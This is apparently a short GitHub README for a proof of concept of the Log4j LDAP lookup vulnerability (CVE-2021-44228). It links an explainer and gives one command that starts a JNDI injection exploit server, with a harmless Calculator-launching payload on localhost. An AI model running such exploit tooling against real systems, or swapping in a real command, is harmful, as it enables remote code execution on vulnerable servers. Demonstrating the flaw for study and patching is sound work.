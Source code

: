 # Apache-Log4j-POC CVE-2021-44228
Proof of Concept of apache log4j LDAP lookup vulnerability

You can read more about the vulnerability here:
https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/

How to run the provided ldap server that returns malicious object ? 
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"

# Courtesy: https://github.com/welk1n/JNDI-Injection-Exploit
